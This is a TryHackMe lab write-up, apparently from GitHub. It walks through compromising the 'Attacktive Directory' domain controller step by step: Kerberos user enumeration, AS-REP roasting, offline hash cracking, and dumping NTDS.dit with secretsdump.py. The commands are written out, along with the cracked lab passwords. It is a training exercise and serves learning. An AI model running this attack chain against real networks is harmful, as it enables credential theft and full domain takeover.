# Attacktive Directory – Exploitation Protocol

## Target Information

* **Platform:** TryHackMe
* **Target IP:** 10.10.x.x
* **Domain:** spookysec.local
* **Initial Access:** Unauthenticated
* **Goal:** Domain Admin / NT AUTHORITY\SYSTEM

---

## Step 1 – Network & Service Enumeration

### Action

Identify exposed services and confirm whether the host is a Domain Controller.

### Command

```bash
nmap -A -T4 10.10.x.x
```

### Expected Output

* Port **88** – Kerberos
* Ports **139/445** – SMB
* Port **389** – LDAP

### Notes

The presence of Kerberos, LDAP, and SMB confirms that the target is a **Windows Domain Controller**.



---

## Step 2 – Domain Enumeration via SMB

### Action

Enumerate SMB to identify the internal domain name and basic AD structure.

### Command

```bash
enum4linux 10.10.x.x
```

### Expected Output

* Domain name disclosed

### Result

```
Domain: spookysec.local
```



---

## Step 3 – Kerberos User Enumeration

### Action

Enumerate valid Active Directory users by abusing Kerberos error responses.

### Tool

Kerbrute

### Command

```bash
kerbrute userenum -d spookysec.local --dc 10.10.x.x users.txt
```

### Result

Valid domain users identified:

* svc-admin
* backup
* administrator

### Notes

Valid usernames are required before attempting Kerberos-based attacks such as AS-REP Roasting.



---

## Step 4 – AS-REP Roasting

### Action

Request Kerberos authentication data for accounts that do not require preauthentication.

### Tool

Impacket – GetNPUsers.py

### Command

```bash
GetNPUsers.py spookysec.local/svc-admin -no-pass -dc-ip 10.10.x.x
```

### Result

* AS-REP hash successfully captured for `svc-admin`

### Notes

Accounts with **Do not require Kerberos preauthentication** enabled are vulnerable to offline password cracking.



---

## Step 5 – Offline Password Cracking

### Action

Crack the captured AS-REP hash using a wordlist attack.

### Tool

John the Ripper

### Command

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### Result

```
svc-admin : management2005
```

### Notes

Service accounts often use weak or reused passwords.

📸 Screenshots:



---

## Step 6 – SMB Share Enumeration

### Action

Use valid credentials to enumerate available SMB shares.

### Command

```bash
smbclient -L //10.10.x.x -U svc-admin
```

### Result

Interesting share identified:

* backup





---

## Step 7 – Access Backup Share

### Action

Access the backup share to search for sensitive files.

### Command

```bash
smbclient //10.10.x.x/backup -U svc-admin
```

### Result

* File discovered: `backup_credentials.txt`
* Contents are Base64 encoded

📸 Screenshots:



---

## Step 8 – Decode Credentials

### Action

Decode the Base64 string to recover credentials.

### Command

```bash
echo "BASE64_STRING" | base64 -d
```

### Result

```
backup@spookysec.local
Password: backup2517860
```



---

## Step 9 – Domain Database Dump

### Action

Use the backup account to dump the Active Directory database.

### Tool

Impacket – secretsdump.py

### Command

```bash
secretsdump.py spookysec.local/backup:backup2517860@10.10.x.x
```

### Result

* NTDS.dit dumped
* Administrator NTLM hash obtained
* Full Domain Admin access achieved


---

## Final Result

* Complete Active Directory compromise
* Domain Admin / NT AUTHORITY\SYSTEM access achieved

---

## Disclaimer

This protocol was executed in an **authorized TryHackMe lab environment** for educational purposes only.

---
👤 Author  Anka0X

 [LinkedIn:](lhttps://www.linkedin.com/in/manka-sec/)
